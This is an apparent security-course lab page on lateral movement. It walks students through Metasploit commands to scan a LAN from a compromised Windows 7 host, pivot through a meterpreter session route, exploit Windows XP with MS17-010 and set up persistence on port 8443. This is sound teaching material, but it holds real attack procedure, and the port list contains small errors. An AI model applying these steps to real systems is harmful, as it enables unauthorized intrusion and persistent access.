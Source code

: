 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Lateral Movement

### Discussion

Lateral movement occurs when a threat actor gains access to one computer and then compromises other computers within an organization. It is a nightmare incident response process because every computer has to be analyzed to determine if it has been compromised. Imagine an organization with 100s or thousands of computers. Other security monitoring tools within the organization can help determine the scope of the attack. However, some organizations are so badly infected that they have to rebuild their entire network or certain parts of it.

### Lab preparation

1. Setup your Kali on the NETSEC-WAN.
2. Ensure your WIndows 7 and Windows XP hosts are up and running and both are on the LAN segment.
3. Make a note of your windows IP address.
4. Re-establish the reverse shell with the Windows 7 host.

### Starting the lab

On Kali, once you have the reverse shell set up, type:

**background**

and you’ll be back at the Metasploit main console.

### Running a port scan

In order to determine what other hosts are on the LAN, threat actors will perform a port scan and then start to target those systems. You’re going to use the port scanner in Metasploit. Load the tcp portscanning module..

**use auxiliary/scanner/portscan/tcp**

Run:

**show options**

Threads help speed up the scan by scanning multiple hosts at one time. This is dependent on the amount of RAM and CPU power of your Kali system. Too many threads will hose your Kali system.

**set threads 10**

Set the network of the compromised hosts. (Keep in mind that after enumerating the host, the threat actor may target other networks within the organization.)

**set RHOSTS 192.168.1.0/24**

Set some common ports to look for Linux (22, 80, 43) and Windows hosts (80, 137, 138, 138, 443 445):

**set PORTS 22,138,139,80,443, 445**

Run the command:

**sessions**

You will use the session with the victim computer to turn the compromised computer to a router. Effectively, it will allow you access to other hosts on the LAN via the already compromised Windows 7 hosts. In the screenshot below, I can use either of the established meterpreter sessions to create the route.

**e.g.**

![e.g.](https://i.imgur.com/uAs78jM.png)

Set the route with (Replace X with YOUR session ID):

**route add 192.168.1.0/24 X**

Then run:

**run**

Wait as the scan is performed. When the scan is finished,

1. Check for your Windows XP IP address.
2. Then run the MS17-010 exploit against it.
3. Setup persistence via the meterpreter session. Recall from your last assignment that you’re already using port 443 so choose a different port like 8443.
4. Create a listener and then manually reboot your windows XP session.

**Based on this lab, do you understand how it only takes one compromised host which can lead to a compromise of other hosts on a network?**
